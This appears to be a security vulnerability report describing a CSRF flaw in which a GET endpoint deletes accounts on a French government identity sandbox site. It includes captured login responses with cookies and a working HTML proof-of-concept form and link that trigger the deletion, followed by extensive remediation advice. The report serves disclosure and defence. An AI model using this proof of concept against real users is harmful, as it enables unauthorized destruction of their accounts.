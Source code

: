 

## Summary

**Vulnerability:** Cross-Site Request Forgery (CSRF) — destructive action implemented as a `GET` endpoint.  
**Target:** `https://identite-sandbox.proconnect.gouv.fr/users/delete`  
**Impact:** An attacker can trick a logged-in user into performing an account deletion/termination action simply by visiting or clicking a link on an attacker-controlled page. Cookies are set with `SameSite=Lax`, which does **not** block top-level `GET` navigations, so a top-level GET (form navigation / link click) from another origin will include the victim’s session cookie and trigger the action.  
**Severity:** High (destructive action affecting user account availability / integrity).  
**Suggested CVSSv3.1 (estimated):** `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H` → **8.8 (High)**

---

## Evidence (captured responses)

**Login response that sets session cookies**

```
HTTP/2 302 Found
Date: Mon, 15 Sep 2025 21:23:10 GMT
...
Set-Cookie: trusted-browser=s%3A10134.wOSitLLpYLSBFE7rxIhwwx2BtPctZ%2F63W%2FWQ41R8HAc; Max-Age=7776000; Path=/; Expires=Sun, 14 Dec 2025 21:23:10 GMT; HttpOnly; Secure; SameSite=Lax
Set-Cookie: session=s%3A4SIUcwS7yc1ghACdtSc-q0lBKae_bFd1.nTTsuKlacIPgdFjIy%2Fn%2BmxNDyxCaV%2Bua%2BAfmHzzaFmQ; Path=/; Expires=Tue, 16 Sep 2025 21:23:10 GMT; HttpOnly; Secure; SameSite=Lax
Location: /users/personal-information
```

**Unauthenticated request to delete endpoint (your earlier test)**

```
GET /users/delete? HTTP/2
Host: identite-sandbox.proconnect.gouv.fr
Cookie: session=...; trusted-browser=...
Referer: https://identite-sandbox.proconnect.gouv.fr/connection-and-account
...
HTTP/2 302 Found
...
Set-Cookie: session=...; Path=/; Expires=Tue, 16 Sep 2025 21:21:40 GMT; HttpOnly; Secure; SameSite=Lax
Location: /users/start-sign-in
```

> Notes: The server sets `session` and `trusted-browser` cookies on login (SameSite=Lax). A top-level cross-site GET navigation will include these cookies, enabling CSRF if the endpoint performs deletion for authenticated users.

---

## Reproduction steps (can be used as PoC)

> Only test on accounts or targets you are authorized to test.

1. Log in to `https://identite-sandbox.proconnect.gouv.fr` using a valid user account (so `session` cookie is present).
    
2. Open a new tab and visit the following attacker-controlled page (or paste into a local file and open it):
    

```html
<!doctype html>
<html>
<head><meta charset="utf-8"><title>CSRF PoC — Manual trigger</title></head>
<body>
  <h3>CSRF PoC — Manual trigger</h3>
  <p>Click the button below (while logged in to the target) to perform a top-level GET to the delete endpoint.</p>
  <form id="csform" action="https://identite-sandbox.proconnect.gouv.fr/users/delete" method="GET" target="_top">
    <button type="button" id="triggerBtn">Trigger delete (click when logged in)</button>
  </form>
  <script>
    document.getElementById('triggerBtn').addEventListener('click', function () {
      document.getElementById('csform').submit();
    });
  </script>
</body>
</html>
```

3. Click **Trigger delete**. Because the form causes a top-level navigation, the browser will include `SameSite=Lax` cookies and perform the GET request to `/users/delete`. If the server performs deletion without confirmation, the account will be deleted or deletion will be initiated.
    

**Alternative PoC (link):**

```html
<a href="https://identite-sandbox.proconnect.gouv.fr/users/delete" target="_top">Click me</a>
```

A simple link click will also send the session cookie because of `SameSite=Lax`.

---

## Impact

- An attacker who can persuade a victim to click a link or visit a page could delete or disrupt the victim’s account.
    
- Loss of data, account denial of service, potential for account takeover chains if deletion triggers other flows.
    
- Reputational and support costs for the service (support tickets, account recovery).
    

---

## Remediation / Recommended fixes (ordered by priority)

1. **Change the HTTP method**: Do **not** perform destructive actions on `GET`. Require `POST` (or `DELETE` with proper CSRF protections) for account deletion endpoints.
    
2. **Require a CSRF token for state-changing requests**: Use synchronized token (per-session/per-request) and validate server-side for all state-modifying actions. Tokens must be present in requests and validated server-side (e.g., in request body/header for POST).
    
3. **Require explicit, irreversible confirmation for destructive actions**:
    
    - Add a server-side confirmation step (re-enter password, or provide current password, or OTP) before performing account deletion.
        
    - Or require the user to click a form button on the site itself (not via link), where the site includes a server-validated CSRF token and a confirmation UI.
        
4. **Harden cookie policy**:
    
    - Consider `SameSite=Strict` for session cookies if it doesn't break legitimate flows — this prevents cookies on any cross-site navigations.
        
    - If `Lax` is required for login flows, ensure server-side defenses exist (CSRF tokens, require POST + re-auth).
        
5. **Validate Origin/Referer headers server-side** for state-changing requests. Reject cross-origin requests for sensitive actions unless other CSRF protections are present.
    
6. **Log and alert** attempts to call destructive endpoints from unexpected sources and rate-limit such actions.
    
7. **User-facing changes**: Show an explicit confirmation page for irreversible actions and send an email/notification to the user when deletion is requested/processed, with clear recovery steps.
    
8. **Security review and test**: Re-run CSRF test cases after remediation; include automated tests to prevent regressions.
    

---

## Detection & mitigation notes

- Automated scanners should flag `GET /users/delete` as risky. Manual verification should confirm whether an authenticated GET causes deletion.
    
- Ensure any cached redirect or auth flow doesn't mask the real behavior for authenticated users during testing.
    
- After remediation, test by attempting cross-site top-level GET, POST w/o token, missing/invalid Origin header, and confirm server rejects.
    

---

